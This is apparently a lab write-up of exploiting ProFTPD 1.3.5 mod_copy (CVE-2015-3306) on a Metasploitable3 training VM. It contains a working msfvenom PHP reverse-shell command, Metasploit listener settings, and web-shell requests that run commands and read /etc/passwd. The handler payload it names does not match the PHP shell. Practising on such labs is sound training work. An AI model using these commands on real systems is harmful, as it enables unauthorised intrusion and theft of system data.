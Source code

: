 ```yaml
---
layout: post
title:  "Metasploitable Series"
categories: ['Hands-on', 'Metasploitable']
tags: "Metasploitable Series"
---
```

# Metasploitable Series
## Issue 1

The first step that was done was scan the machine using nmap -sV -A
The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

since we get the version number I decided on using *searchsploit* to locate any existing exploit

### Mode_copy remote command execution
- sudo python 49908.py  192.168.199.130  
allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
When running the command we were able to put a test.php in the victim!
instead of test.php what if i uploaded a *reverse shell* php?

### Making a backdoor php using venom
we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole
- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run
2. Creating reverse shell using msfvenom
- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306
i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:
http://192.168.199.130/backdoor.php?cmd=ls


### What we can find out
WHOAMI
http://192.168.199.130/backdoor.php?cmd=whoami  *www-data*

Os Running
http://192.168.199.130/backdoor.php?cmd=uname -a *Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux*

Users in the machine
http://192.168.199.130/backdoor.php?cmd=cat%20/etc/passwd

users found
- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
